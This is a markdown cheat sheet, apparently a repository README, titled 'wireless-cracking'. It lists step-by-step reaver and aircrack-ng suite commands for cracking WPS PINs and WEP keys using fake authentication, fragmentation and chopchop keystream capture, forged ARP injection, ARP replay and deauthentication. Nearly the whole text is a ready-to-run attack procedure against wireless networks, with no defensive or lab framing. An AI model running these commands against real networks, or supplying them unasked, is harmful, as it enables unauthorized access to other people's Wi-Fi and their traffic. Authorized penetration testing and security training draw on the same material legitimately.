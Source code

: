 # wireless-cracking

## Info Gathering
- Get MAC Address of wireless network card
```
macchanger --show <INTERFACE>
```
- List wireless network info
```
iwconfig
```

## WPS Attack
1. Put the interface into monitor mode
```
airmon-ng start wlan0
```
2. Gain the information of the interface
```
wash -i wlan0mon
```
3. Crack the pin
```
sudo reaver -b <bssid of the AP> -i wlan0mon -v -K
```

## WEP Cracking (Clientless)
1. Put the interface into monitor mode
```
airmon-ng start wlan0
```
2. Gain the information of the interface
```
airodump-ng wlan0mon
```
3. Capture the traffic and specify the Target AP
```
sudo airodump-ng -c <channel> --bssid <bssid of the AP> -w <output filename> wlan0mon
```
4. Do a fake authentication
```
aireplay-ng -1 0 -e <wifi name(ssid)> -a <bssid of the AP> -h <wireless card MAC addr> wlan0mon
```
5. If no client then do a fragmentation attack (-5) and obtain the Keystream file (If fragmentation not success then use Chopchop technique -4)
```
aireplay-ng -5 -b <bssid of the AP> -h <wireless card MAC addr> wlan0mon    
```
6. Then the Keystream file (.xor) is obtained
7. Create ARP packet
```
packetforge-ng -0 -a <bssid of the AP> -h <wireless card MAC addr> -k 255.255.255.255 -l 255.255.255.255 -y fragment-0203-180343.xor(Keystream file) -w arp-request
```
8. Inject the forged ARP packet
```
aireplay-ng -2 -r arp-request wlan0mon
```
9. Crack and obtain wireless key
```
aircrack-ng -b <bssid of the AP> <captured file (.cap)>
```

## WEP Cracking (Connected Client)
1. Put the interface into monitor mode
```
airmon-ng start wlan0
```
2. Gain the information of the interface
```
airodump-ng wlan0mon
```
3. Capture the traffic and specify the Target AP
```
sudo airodump-ng -c <channel> --bssid <bssid of the AP> -w <output filename> wlan0mon
```
4. Do a fake authentication
```
aireplay-ng -1 0 -e <wifi name(ssid)> -a <bssid of the AP> -h <wireless card MAC addr> wlan0mon
```
5. Then the Keystream file (.xor) is obtained
6. Do a fake authentication again with Keystream file
```
aireplay-ng -1 0 -e <wifi name(ssid)> -y <obtained_keystreamfile> -a <bssid of the AP> -h <wireless card MAC addr> wlan0mon
```
7. Do a ARP replay attack
```
aireplay-ng -3 -b <bssid of the AP> -h <wireless card MAC addr> wlan0mon    
```
8. Crack and obtain wireless key
```
aircrack-ng -b <bssid of the AP> <captured file (.cap)>
```

## WEP Cracking (Connected Client [Other Method])
1. Put the interface into monitor mode
```
airmon-ng start wlan0
```
2. Gain the information of the interface
```
airodump-ng wlan0mon
```
3. Capture the traffic and specify the Target AP
```
sudo airodump-ng -c <channel> --bssid <bssid of the AP> -w <output filename> wlan0mon
```
4. Do a fake authentication
```
aireplay-ng -1 0 -e <wifi name(ssid)> -a <bssid of the AP> -h <wireless card MAC addr> wlan0mon
```
**---If Fake authentication not working---** 

5. Interactive packet replay attack
```
aireplay-ng -2 -b <bssid of the AP> -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 <INTERFACE>
```
or
```
aireplay-ng -2 -r <captured file (.cap)> wlan0mon
```
6. Crack and obtain wireless key
```
aircrack-ng <captured file (.cap)>
```
**---If Fake authentication working---** 

5. Do a ARP replay attack
```
aireplay-ng -3 -b <bssid of the AP> -h <wireless card MAC addr> wlan0mon    
```
6. Do a Deauthentication attack
```
aireplay-ng -0 1 -a <bssid of the AP> -h <wireless card MAC addr> wlan0mon    
```
8. Crack and obtain wireless key
```
aircrack-ng <captured file (.cap)>
```


